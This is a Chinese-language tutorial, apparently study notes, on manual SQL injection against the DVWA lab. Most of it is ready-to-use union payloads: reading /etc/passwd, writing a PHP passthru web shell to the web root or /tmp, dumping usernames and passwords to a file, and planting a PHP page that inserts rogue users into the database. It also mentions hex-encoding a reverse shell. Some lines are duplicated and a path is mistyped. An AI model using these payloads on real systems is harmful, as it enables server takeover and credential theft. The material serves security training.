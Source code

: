 # SQL手工注入(二)

## 1.读取文件[load_file函数]

```
' union Select null,load_file('/etc/passwd')--+
```

![SQL inje](img/SQL injection/SQL injection1.png)

**使用Burpsuite注入:**

![SQL injection2](img/SQL injection/SQL injection2.png)

---

## 2.写入文件

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE "/var/www/a.php"--+    [写入一句话木马;INTO DUMPING:mysql函数,将输入下载在数据库]
```

![SQL injection](img/SQL injection/SQL injection3.png)

*提示:* 此语句往往会提示无法写入,因为缺少权限[以运行MySQL的账号为己身获取的权限]

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE 'a.php'--+  [将其写入默认路径(使用单引号):`/var/lib/mysql/dvwa/a.php`(dvwa的账号)]
```

![SQL injection](img/SQL injection/SQL injection4.png)

![SQL injection](img/SQL injection/SQl injection5.png)

*提示:* 当无权限进行指定目录写入文件时,可使用文件包含漏洞

- 首先,往通用目录`/tmp`中写入,然后结合文件包含漏洞

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE "/tem/a.php"--+
```

![SQL injection6](img/SQL injection/SQL injection6.png)



**也可上传反弹shell**

*注:* 当网页木马URL注入编译成二进制文件,数据库会使用INTO DUMPFILE将其转化成PHP代码存储

复制反弹木马:

![SQL injection]()

当上传webshell无法实现目的操作，可编写服务器端代码，为己所用

#对目标有足够了解，数据库结构，表结构，程序设计逻辑方法当上传webshell无法实现目的操作，可编写服务器端代码，为己所用

#对目标有足够了解，数据库结构，表结构，程序设计逻辑方法修改反弹shellIP:

![SQL injection]()





#### 编码

```
cat b.php | xxd -ps  [xxd:Linux集成,16进制编辑查看器;-ps:显示编码后的内容]
```

*提示:* 十六进制存在换行符,需要整理,再加一层管道

```
cat b.php | xxd -ps | tr -d '\d'  [tr -d:删除]
```

---



 ### 3.保存下载数

```
' union SELECT null,concat(user,0x3a,password) from users INTO OUTFILE '/tmp/a.db'--+
```

**若没有文件包含之类的漏洞可以下载拖库文件,则通过限定查询数目,一步一步复制黏贴进行数据窃取**

**当上传webshell无法实现目的操作，可编写服务器端代码，为己所用**

**对目标有足够了解，数据库结构，表结构，程序设计逻辑方法**



```
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name
= $_POST["first_name"]; $last_name = $_POST["last_name"]; $username =
$_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo
"first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username:
$username<BR>"; echo "avatar: $avatar<BR>";
$con=mysqli_connect("127.0.0.1","root","","dvwa"); if (mysqli_connect_errno()) { echo
"Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to
database<BR>"; } $password = "123"; $sql="insert into dvwa.users values (\\"$userID\\",\
\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\
\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error
creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post"
action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID"
value="33"><br> <input type="text" name="first_name" value="fh"><br> <input type="text"
name="last_name" value="y"><br> <input type="text" name="username" value="yfh"><br>
<input type="text" name="avatar" value="yfh!"><br> <input type="submit" name="submit"
value="Submit Form"><br> </form>' INTO DUMPFILE '/tmp/user.php' --
```





